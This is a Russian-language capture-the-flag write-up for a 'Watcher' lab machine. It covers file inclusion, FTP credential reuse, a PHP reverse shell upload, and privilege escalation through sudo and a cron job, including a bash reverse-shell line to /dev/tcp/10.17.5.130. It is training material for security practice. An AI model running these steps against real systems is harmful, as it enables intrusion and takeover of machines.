

# Watcher WriteUp (Medium)✅

Перейдя по ip адресу, мы видим страницу с подставками (?) для посуды

<figure><figcaption></figcaption></figure>

Проверив файл **robots.txt**, мы обнаруживаем 2 файла

<figure><figcaption></figcaption></figure>

В файле **flag\_1.txt** находится первый флаг🚩

<figure><figcaption></figcaption></figure>

Во втором файле находится записка, но мы не можем прочитать её содержимое, просто перейдя в него с помощью адресной строки

<figure><figcaption></figcaption></figure>

Нажав на картинку на основной странице, в адресной строке появляется html-запрос, используя его, прочитаем содержимое файла **secret\_file\_do\_not\_read.txt**

<figure><figcaption></figcaption></figure>

В данной записке находится логин и пароль для подключения по протоколу ftp&#x20;

<figure><figcaption></figcaption></figure>

Используя логин и пароль из записки, подключаемся к машине и скачиваем файл **flag\_2.txt**

<figure><figcaption></figcaption></figure>

Выводим содержимое данного файла и получаем второй флаг🚩

<figure><figcaption></figcaption></figure>

Далее нам понадобится **php\_reverse\_shell**. Используя **ftp** соединение, загружаем шелл в директорию **/files**, а затем, подключив слушатель, создаем **html-запрос**, в котором обращаемся к файлу с шеллом, указав полный путь до него&#x20;

<figure><figcaption>
Отправить данный запрос нужно после поключения слушателя
</figcaption></figure>

Перейдя в каталог **/var/www/html** мы можем найти папку **more\_secrets\_a9f10a**

<figure><figcaption></figcaption></figure>

В ней и находится текстовый файл с третьим флагом🚩

<figure><figcaption></figcaption></figure>

Четвертый флаг находится в директории toby, но от лица www-data у нас нет прав, чтобы его узнать

<figure><figcaption></figcaption></figure>

С помощью команды `sudo -l` мы выяснили, что от лица пользователя **toby** мы можем вывести содержимое файла, поэтому, используя команду `sudo -u toby /bin/bash` меняем пользователя на **toby** и выводим четвертый флаг🚩

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Записка **note.txt** намекает нам, что в папке **jobs** находится скрипт, который выполняется в определенный период времени (с помощью инструмента **cron**)

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Добавив в него строку с **bash\_reverse\_shell'ом** с помощью команды `echo 'bash -c "bash -i >& /dev/tcp/10.17.5.130/5555 0>&1''' >>` [`cow.sh`](https://vk.com/away.php?to=http%3A%2F%2Fcow.sh\&cc\_key=) и подключив слушатель, получаем оболочку уже от лица пользователя **mat**, в директории которого находится пятый флаг🚩

<figure><figcaption></figcaption></figure>

Проверив, что написано в записке, которая находится в той же директории, мы узнаем, что можем запустить некий **python-скрипт** от лица пользователя **will** без пароля&#x20;

<figure><figcaption></figcaption></figure>

Этот скрипт берет некоторые данные из второго python-скрипта **cmd.py**

Содержимое файла **will\_script.py** мы изменить не можем, однако, стабилизировав оболочку, с помощью команды `nano cmd.py` мы имеем право добавить в данный скрипт очередной пейлоад, чтобы получить оболочку от лица пользователя **will**&#x20;

<figure><figcaption></figcaption></figure>

Заранее подключив слушатель, запускаем **will\_script.py** используя команду:

`sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1` ("1" нам нужна, потому что что скрипт cmd.py принимает значение 1-3 для правильной работы)&#x20;

И получаем шелл от лица пользователя will, а вместе с ним и шестой флаг 🚩

<figure><figcaption></figcaption></figure>
